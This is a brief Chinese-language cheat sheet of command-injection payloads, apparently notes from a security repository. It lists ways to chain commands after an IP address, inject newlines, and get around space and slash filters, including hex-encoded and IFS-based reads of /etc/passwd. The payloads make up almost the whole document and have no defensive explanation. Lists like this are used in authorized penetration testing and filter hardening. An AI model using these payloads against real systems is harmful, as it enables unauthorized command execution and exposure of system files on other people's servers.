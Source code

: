 

## 命令注入

- 命令链（`;` `&&` `||` `&` `|`）

```
127.0.0.1; whoami
127.0.0.1 && whoami
xxx || whoami
127.0.0.1 & whoami
127.0.0.1 | whoami
```

- 换行符

```
127.0.0.1%0Awhoami
127.0.0.1%5C%0Awhoami
```

- 绕过空格过滤（IFS、输入重定向、Hex编码、空白符替换、Windows环境变量字串）

```shell
cat${IFS}/etc/passwd
ls${IFS}-la

cat</etc/passwd

X=$'uname\x20-a'&&$X

ls%09-la%09/home
```
```cmd
echo 333%ProgramFiles:~10,-5%4444
ping%CommonProgramFiles:~10,-18%127.0.0.1
ping%PROGRAMFILES:~10,-5%127.0.0.1
```

- ASCII扩展（`$'\x20\x00'`）

```shell
# `` 和 $() 中的内容会被当做命令运行
cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`

abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc

`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`

cat `xxd -r -p <<< 2f6574632f706173737764`
cat `xxd -r -ps <(echo 2f6574632f706173737764)`
```

- 绕过符号过滤（`/`）

```shell
${HOME:0:1}

$(echo . | tr '!-0' '"-1')
`echo . | tr '(-0' ')-1'`
```
